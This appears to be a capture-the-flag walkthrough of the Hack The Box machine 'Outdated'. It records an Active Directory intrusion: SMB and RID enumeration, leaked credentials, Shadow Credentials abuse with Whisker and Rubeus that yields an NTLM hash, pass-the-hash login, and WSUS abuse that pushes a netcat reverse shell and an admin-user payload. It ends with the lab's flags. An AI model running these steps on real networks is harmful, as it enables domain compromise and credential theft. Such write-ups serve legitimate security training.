

# 10.10.11.175
- outdated.htb

## NMAP
```
PORT      STATE SERVICE
25/tcp    open  smtp
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
8530/tcp  open  unknown
8531/tcp  open  unknown
9389/tcp  open  adws
49667/tcp open  unknown
49689/tcp open  unknown
49690/tcp open  unknown
49914/tcp open  unknown
49926/tcp open  unknown
49960/tcp open  unknown
```

```
PORT     STATE SERVICE       VERSION                                                                                                         11:40:01 [11/59]
25/tcp   open  smtp          hMailServer smtpd
| smtp-commands: mail.outdated.htb, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-11-09 00:38:40Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-11-09T00:40:01+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2025-11-09T00:20:46
|_Not valid after:  2026-11-09T00:20:46
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-11-09T00:40:00+00:00; +7h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2025-11-09T00:20:46
|_Not valid after:  2026-11-09T00:20:46
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-11-09T00:40:01+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2025-11-09T00:20:46
|_Not valid after:  2026-11-09T00:20:46
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-11-09T00:40:00+00:00; +7h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC.outdated.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.outdated.htb
| Not valid before: 2025-11-09T00:20:46
|_Not valid after:  2026-11-09T00:20:46
8530/tcp open  http    Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title.
| http-methods:
|_  Potentially risky methods: TRACE
8531/tcp open  unknown
9389/tcp open  mc-nmf  .NET Message Framing
49667/tcp open  msrpc      Microsoft Windows RPC
49689/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc      Microsoft Windows RPC
49914/tcp open  msrpc      Microsoft Windows RPC
49926/tcp open  msrpc      Microsoft Windows RPC
49960/tcp open  msrpc      Microsoft Windows RPC

Service Info: Hosts: mail.outdated.htb, DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Foothold
- `nxc smb 10.10.11.175 -u 'guest' -p '' --shares`
```
SMB         10.10.11.175    445    DC               Share           Permissions     Remark
SMB         10.10.11.175    445    DC               -----           -----------     ------
SMB         10.10.11.175    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.175    445    DC               C$                              Default share
SMB         10.10.11.175    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.175    445    DC               NETLOGON                        Logon server share
SMB         10.10.11.175    445    DC               Shares          READ
SMB         10.10.11.175    445    DC               SYSVOL                          Logon server share
SMB         10.10.11.175    445    DC               UpdateServicesPackages                 A network share to be used by client systems for collecting all so
ftware packages (usually applications) published on this WSUS system.
SMB         10.10.11.175    445    DC               WsusContent                     A network share to be used by Local Publishing to place published content on this WSUS system.
SMB         10.10.11.175    445    DC               WSUSTemp                        A network share used by Local Publishing from a Remote WSUS Console Insta
nce.

```
- `--rid-brute`
```
B         10.10.11.175    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:outdated.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.175    445    DC               [+] outdated.htb\guest:
SMB         10.10.11.175    445    DC               498: OUTDATED\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.175    445    DC               500: OUTDATED\Administrator (SidTypeUser)
SMB         10.10.11.175    445    DC               501: OUTDATED\Guest (SidTypeUser)
SMB         10.10.11.175    445    DC               502: OUTDATED\krbtgt (SidTypeUser)
SMB         10.10.11.175    445    DC               512: OUTDATED\Domain Admins (SidTypeGroup)
SMB         10.10.11.175    445    DC               513: OUTDATED\Domain Users (SidTypeGroup)
SMB         10.10.11.175    445    DC               514: OUTDATED\Domain Guests (SidTypeGroup)
SMB         10.10.11.175    445    DC               515: OUTDATED\Domain Computers (SidTypeGroup)
SMB         10.10.11.175    445    DC               516: OUTDATED\Domain Controllers (SidTypeGroup)
SMB         10.10.11.175    445    DC               517: OUTDATED\Cert Publishers (SidTypeAlias)
SMB         10.10.11.175    445    DC               518: OUTDATED\Schema Admins (SidTypeGroup)
SMB         10.10.11.175    445    DC               519: OUTDATED\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.175    445    DC               520: OUTDATED\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.175    445    DC               521: OUTDATED\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.175    445    DC               522: OUTDATED\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.175    445    DC               525: OUTDATED\Protected Users (SidTypeGroup)
SMB         10.10.11.175    445    DC               526: OUTDATED\Key Admins (SidTypeGroup)
SMB         10.10.11.175    445    DC               527: OUTDATED\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.175    445    DC               553: OUTDATED\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.175    445    DC               571: OUTDATED\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.175    445    DC               572: OUTDATED\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.175    445    DC               1000: OUTDATED\WSUS Administrators (SidTypeAlias)
SMB         10.10.11.175    445    DC               1001: OUTDATED\WSUS Reporters (SidTypeAlias)
SMB         10.10.11.175    445    DC               1002: OUTDATED\DC$ (SidTypeUser)
SMB         10.10.11.175    445    DC               1103: OUTDATED\DnsAdmins (SidTypeAlias)
SMB         10.10.11.175    445    DC               1104: OUTDATED\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.175    445    DC               1105: OUTDATED\CLIENT$ (SidTypeUser)
SMB         10.10.11.175    445    DC               1106: OUTDATED\btables (SidTypeUser)
SMB         10.10.11.175    445    DC               1107: OUTDATED\ITStaff (SidTypeGroup)
SMB         10.10.11.175    445    DC               1108: OUTDATED\sflowers (SidTypeUser)

```
- `smbclient -U 'guest' //10.10.11.175/Shares`
    - gives us a NOC_Reminder.pdf
    - 
    - `sflowers` might be the SOC

- smtp to be tried with `itsupport@outdated.htb`
-

- found check_mail.ps1 script
    - `btables@outdated.htb:GHKKb7GEHcccdCT8tQV2QwL3`

- start impacket-smbserver and copy the sharphound ingestor.
    - copy the bloodhound zip file
- in bloodhound we see `AddKeyCredentialLink` to `sflowers`
- `pywhisker.py -d "outdated.htb" -u "btables" -p "GHKKb7GEHcccdCT8tQV2QwL3" --target "sflowers" --action "add"` - had some issue **DID NOT WORK**

- `Whisker.exe add /target:sflowers@outdated.htb`
```
.\Whisker.exe add /target:sflowers
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password VNskRt3TpsVlxWHC
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 684315e0-3890-485f-ab32-a8c63682be56
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:sflowers /certificate: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 /password:"VNskRt3TpsVlxWHC" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show
```

```
ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers
  UserRealm                :  OUTDATED.HTB
  StartTime                :  11/8/2025 10:41:36 PM
  EndTime                  :  11/9/2025 8:41:36 AM
  RenewTill                :  11/15/2025 10:41:36 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  mTm/Sw7EwFBUHiNUJB61+w==
  ASREP (key)              :  3B23538378F57B69CD22DCE4A8EDEEE9

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5

```
- `evil-winrm -i 10.10.11.175 -u sflowers -H 1FCDB1F6015DCB318CC77BB2BDA14DB5`
    - get user.txt - 6503fd6f796c8ac6d55bd3bd78a506cf

## Privesc
- user is a part of WSUS Administrators group
-  Trying WSUSpendu - **DID NOT WORK**
```
`.\Wsuspendu.ps1 -Inject -PayloadFile C:\temp\psexec.exe -PayloadArgs '-accepteula -s -d cmd.exe /c "net user neal Password123! /add && net localgroup Administrators neal /add"' -Computer
Name DC.outdated.htb`
- `.\Wsuspendu.ps1 -check -UpdateID 55196b8e-cda0-4996-ac85-567d9d1f63d1 -ComputerName DC.outdated.htb`
    - update not installed
```

<hr>

- Trying SharpWSUS.exe - https://www.lrqa.com/en/cyber-labs/introducing-sharpwsus/

```
.\SharpWSUS.exe locate
.\SharpWSUS.exe inspect

.\SharpWSUS.exe create /payload:"C:\temp\psexec.exe" /args:" -accepteula -s -d C:\temp\nc.exe -e cmd.exe 10.10.14.14 445" /title:"WSUSDemo1"

KALI: nc -nvlp 445

.\SharpWSUS.exe approve /updateid:ed8f95fc-d5d1-44a4-9c2b-d5a3173fbfe4 /computername:dc.outdated.htb /groupname:"Yoginis"

.\SharpWSUS.exe check /updateid:ed8f95fc-d5d1-44a4-9c2b-d5a3173fbfe4 /computername:dc.outdated.htb
```

- get root.txt - 878324873469af195e9338dcf176b28d
